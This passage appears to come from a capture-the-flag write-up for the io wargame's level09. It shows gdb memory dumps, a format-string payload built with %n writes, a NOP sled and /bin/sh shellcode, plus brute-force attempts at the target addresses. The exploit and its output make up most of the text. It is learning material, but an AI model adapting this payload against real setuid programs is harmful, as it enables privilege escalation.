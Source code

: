 ```
0xbffff800:   0x78383025  0x78363325  0x31256e25  0x25783836
0xbffff810:   0x3632256e  0x6e257833  0x32393125  0x906e2578
0xbffff820:   0x90909090  0x90909090  0x90909090  0x90909090
0xbffff830:   0x90909090  0x90909090  0x90909090  0x90909090
0xbffff840:   0x90909090  0x90909090  0x90909090  0x90909090
0xbffff850:   0x90909090  0x90909090  0x90909090  0x90909090
0xbffff860:   0x90909090  0x90909090  0x90909090  0x90909090
(gdb) x/40xw $esp+0x3f0
0xbffffbc0:   0x00000000  0x00000000  0x00000000  0x00000000
0xbffffbd0:   0x00000000  0x00000000  0x00000000  0x08000000
0xbffffbe0:   0xb7e9d515  0xb7ff0590  0x0804841b  0x0000babe
0xbffffbf0:   0x08048410  0x00000000  0xbffffc78  0xbffff850 <- We did it again
0xbffffc00:   0x00000002  0xbffffca4  0xbffffcb0  0xb7fe0860
0xbffffc10:   0xb7ff6821  0x0177ff8e  0xb7ffeff4  0x0804820c
0xbffffc20:   0x00000001  0xbffffc60  0xb7fefc16  0xb7fffac0
0xbffffc30:   0xb7fe0b58  0xb7fceff4  0x00000000  0x00000000
0xbffffc40:   0xbffffc78  0xf7178180  0xd8739790  0x00000000
0xbffffc50:   0x00000000  0x00000000  0x00000002  0x08048300
(gdb) c
Continuing.
process 19542 is executing new program: /bin/bash
sh-4.2$
```

Since the addresses will differ outside of the debugger, let's run it and see.
```
level9@io:/levels$ ./level09 $(python -c "print '\xfc\xfb\xff\xbfAAAA\xfd\xfb\xff\xbfAAAA\xfe\xfb\xff\xbfAAAA\xff\xfb\xff\xbf%08x%08x%36x%n%168x%n%263x%n%192x%n' + '\x90'*100 + '\x33\xd2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'")
????AAAA????AAAA????AAAA????bffffdd1000003ff                              160d7c                                                                                                                                                                41414141                                                                                                                                                                                                                                                               41414141                                                                                                                                                                                        41414141????????????????????????????????????????????????????????????????????????????????????????????????????3?1?Ph//shh/bin??PS??
        ̀level9@io:/levels$ 
```

No such luck. I wrote a little script to brute force the values until it worked. Here is the result:
```
level9@io:/levels$ python /tmp/ZZZ/solve.py 0x4c443c34
[+] Trying buf '<\xfc\xff\xbfAAAA=\xfc\xff\xbfAAAA>\xfc\xff\xbfAAAA?\xfc\xff\xbf%08x%08x%100x%n%104x%n%263x%n%192x%n\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x903\xd21\xc0Ph//shh/bin\x89\xe3PS\x89\xe1\xb0\x0b\xcd\x80'
sh: ???AAAA=???AAAA: No such file or directory
[+] Trying buf '8\xfc\xff\xbfAAAA9\xfc\xff\xbfAAAA:\xfc\xff\xbfAAAA;\xfc\xff\xbf%08x%08x%96x%n%108x%n%263x%n%192x%n\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x903\xd21\xc0Ph//shh/bin\x89\xe3PS\x89\xe1\xb0\x0b\xcd\x80'
8???AAAA9???AAAA:???AAAAsh: ???%08x%08x%96x%n%108x%n%263x%n%192x%n????????????????????????????????????????????????????????????????????????????????????????????????????3?1?Ph//shh/bin??PS??
̀: No such file or directory
```
